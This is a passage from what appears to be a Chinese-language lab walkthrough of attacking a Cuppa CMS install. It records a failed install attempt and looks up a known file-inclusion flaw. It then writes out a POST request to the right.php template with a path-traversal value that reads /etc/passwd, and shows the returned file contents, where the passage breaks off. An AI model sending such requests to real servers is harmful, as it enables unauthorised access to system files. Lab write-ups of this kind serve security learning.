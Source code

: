     尝试输入`Database Name` = test，`Password` = test ,`Email` = `test@tets.com` ,点击`next`
    
    ![image.png](image%207.png)
    
    数据表创建成功，不过管理员用户创建失败，并且交互只有一个`back` ，这块也走不下去了
    
5. 想到Cuppa也是一个开源项目，我们去查阅一下有没有漏洞，因为我们不知道CMS版本，所以都可以尝试下
    - 经查阅法cuppa存在文件包含漏洞，并且很容易利用
        
        > [https://bugtoolz.com/post/cs132020723/](https://bugtoolz.com/post/cs132020723/)
        > 
        
        在`/target/templates/default/html/windows/right.php` 下存在一个`$_POST['url']` ,提交可以访问任意文件
        
    - 访问并抓包`/administrator/templates/default/html/windows/right.php` 因为是在`administator`目录安装的
    - 抓到包后测试读取`/etc/passwd` ，记得修改包请求方法，默认访问时GET需要改成POST
        
        ```php
        //req
        POST /administrator/templates/default/html/windows/right.php HTTP/1.1
        Host: 192.168.75.133
        ....
        url=../../	../../etc/passwd
        ```
        
        读取成功
        
        ```php
        //res
        root:x:0:0:root:/root:/bin/bash
        daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
        bin:x:2:2:bin:/bin:/usr/sbin/nologin
        sys:x:3:3:sys:/dev:/usr/sbin/nologin
        sync:x:4:65534:sync:/bin:/bin/sync
        games:x:5:60:games:/usr/games:/usr/sbin/nologin
        man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
        lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
        mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
        news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
        uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
        proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
        www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
        backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
        list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
        irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
        gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
        nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
        systemd-timesync:x:100:102:systemd Time Synchronization,,,:/run/systemd:/bin/false
        systemd-network:x:101:103:systemd Network Management,,,:/run/systemd/netif:/bin/false
        systemd-resolve:x:102:104:systemd Resolver,,,:/run/systemd/resolve:/bin/false
        systemd-bus-proxy:x:103:105:systemd Bus Proxy,,,:/run/systemd:/bin/false
        syslog:x:104:108::/home/syslog:/bin/false
        _apt:x:105:65534::/nonexistent:/bin/false
        messagebus:x:106:110::/var/run/dbus:/bin/false
        uuidd:x:107:111::/run/uuidd:/bin/false
        lightdm:x:108:114:Light Display Manager:/var/lib/lightdm:/bin/false
        whoopsie:x:109:117::/nonexistent:/bin/false
        avahi-autoipd:x:110:119:Avahi autoip daemon,,,:/var/lib/avahi-autoipd:/bin/false
        avahi:x:111:120:Avahi mDNS daemon,,,:/var/run/avahi-daemon:/bin/false